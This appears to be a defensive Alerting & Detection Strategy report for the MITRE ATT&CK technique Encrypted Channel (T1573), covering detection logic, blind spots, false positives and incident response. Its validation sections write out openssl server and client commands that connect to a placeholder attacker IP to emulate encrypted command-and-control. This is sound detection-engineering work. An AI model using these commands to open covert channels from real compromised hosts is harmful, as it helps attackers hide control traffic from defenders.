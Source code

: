 # Alerting & Detection Strategy (ADS) Report: Detect Adversarial Attempts to Bypass Security Monitoring Using Encrypted Channels

## Goal
The objective of this technique is to detect adversarial attempts to bypass security monitoring by using encrypted channels, specifically focusing on the MITRE ATT&CK technique T1573 - Encrypted Channel. This detection aims to identify unauthorized command and control communications that adversaries encrypt to avoid detection.

## Categorization
- **MITRE ATT&CK Mapping:** T1573 - Encrypted Channel
- **Tactic / Kill Chain Phases:** Command and Control (C2)
- **Platforms:** Linux, macOS, Windows
- [MITRE ATT&CK Reference](https://attack.mitre.org/techniques/T1573)

## Strategy Abstract
The detection strategy focuses on identifying patterns indicative of encrypted command and control communications across various platforms. Key data sources include network traffic logs, process monitoring tools, and endpoint detection systems. Patterns analyzed involve unusual encryption software usage, unexpected outbound connections to known or suspicious domains/IPs, anomalous certificate generation activities, and irregularities in DNS queries.

## Technical Context
Adversaries use encrypted channels by leveraging legitimate encryption protocols like TLS/SSL to disguise their command and control communications. This can be executed using tools such as OpenSSL for establishing secure tunnels that appear benign to traditional security monitoring systems.

### Adversary Emulation Details:
- **OpenSSL C2 Example:** Adversaries may set up an OpenSSL server and client to facilitate encrypted communication between the attacker's infrastructure and compromised endpoints.
- **Sample Commands:**
  - Setting up an OpenSSL server:
    ```bash
    openssl s_server -accept 4433 -cert server.crt -key server.key
    ```
  - Configuring an OpenSSL client:
    ```bash
    openssl s_client -connect <ATTACKER_IP>:4433
    ```

## Blind Spots and Assumptions
- **Blind Spots:** 
  - Encrypted channels with legitimate certificates might evade detection.
  - Detection may not be effective against custom encryption protocols or highly obfuscated traffic.
- **Assumptions:**
  - The adversary uses standard encryption tools that can be detected via behavioral analysis.
  - Security systems have visibility into network and endpoint activities.

## False Positives
Potential benign activities that might trigger false alerts include:
- Legitimate use of OpenSSL for secure communications in development or testing environments.
- Standard SSL/TLS traffic from well-known services that are not malicious.
- Internal tools using encryption for data protection without intent to exfiltrate data.

## Priority
**Priority: High**

Justification: Encrypted channels can significantly reduce the visibility of command and control activities, allowing adversaries to maintain persistence and achieve their objectives undetected. The ability to evade security monitoring makes this a high-priority threat vector that requires robust detection mechanisms.

## Validation (Adversary Emulation)
To validate the detection strategy in a test environment:

1. **Setup Test Environment:**
   - Prepare isolated network segments for testing.
   - Deploy endpoint systems across Linux, macOS, and Windows platforms.

2. **Emulate OpenSSL C2:**
   - On an attacker-controlled machine (e.g., Linux VM), set up an OpenSSL server:
     ```bash
     openssl req -x509 -newkey rsa:4096 -keyout server.key -out server.crt -days 365 -nodes
     openssl s_server -accept 4433 -cert server.crt -key server.key
     ```
   - On a compromised endpoint (e.g., Windows VM), configure an OpenSSL client to connect to the attacker's server:
     ```bash
     openssl.exe s_client -connect <ATTACKER_IP>:4433
     ```

3. **Monitor and Analyze:**
   - Use network traffic analysis tools to detect encrypted communication attempts.
   - Monitor process logs for unexpected encryption software usage.

## Response
When an alert indicating potential use of encrypted channels is triggered:

1. **Immediate Investigation:**
   - Review the source IP addresses, destination domains/IPs, and associated certificates involved in the suspicious activity.
   - Cross-reference with known threat intelligence databases to identify any malicious indicators.

2. **Containment Measures:**
   - Isolate affected systems from the network to prevent further unauthorized communication.
   - Block outbound connections to identified malicious domains or IP addresses at the firewall level.

3. **Forensic Analysis:**
   - Conduct a thorough forensic analysis of compromised endpoints to determine the scope and method of compromise.
   - Examine logs for additional indicators of compromise (IoCs) that may indicate lateral movement or data exfiltration attempts.

4. **Post-Incident Review:**
   - Update detection rules based on findings to reduce false positives and enhance detection capabilities.
   - Share insights with the broader security community to improve collective defense mechanisms.

## Additional Resources
- None available

This report provides a comprehensive strategy for detecting encrypted command and control communications, addressing technical context, potential blind spots, response actions, and validation steps. It is essential to continuously refine these strategies in response to evolving adversarial tactics.